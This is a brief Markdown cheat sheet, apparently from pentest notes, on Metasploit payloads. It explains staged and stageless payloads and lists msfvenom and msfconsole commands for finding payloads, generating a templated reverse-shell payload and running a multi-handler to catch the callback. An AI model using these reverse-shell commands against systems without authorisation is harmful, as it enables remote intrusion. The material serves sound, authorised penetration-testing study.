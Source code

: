 ## Payloads

Staged vs Stageless payloads
A staged payload is sent in two parts: a small "stager" that connects back, and then the main payload (the "stage") is sent over that connection. A stageless payload is a single, large, self-contained file that has everything needed to run.


### Finding payloads

Via msfconsole:
```bash
search type:payload platform:windows x64 reverse
search type:payload platform:linux reverse_tcp
```

Via msfvenom:
```bash
msfvenom --list payloads
msfvenom --list payloads | grep windows | grep x64 | grep reverse

msfvenom --list formats
msfvenom --list encoders
```
### Generate a payload

```bash
# Reverse shell
msfvenom -p <PAYLOAD> lhost=<IP> lport=<PORT> -f <FORMAT> -b <BAD_CHARS> -o <FILENAME>
```
## Catching your shell
> [!IMPORTANT]
> You must use a multi-handler when catching staged payloads. If you want to use netcat you must use a stageless `linux/x86/shell_reverse_tcp`. Stageless payloads typicall have "shell" in their name.
>
> windows/shell/reverse_tcp (Staged)
> windows/shell_reverse_tcp (Stageless)
> linux/shell/reverse_tcp (Staged)
> linux/shell_reverse_tcp (Stageless)

## Multi-handler
Setup a multihander to catch a staged callback
```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set lhost <IP>; set lport <PORT>; exploit -j"
```

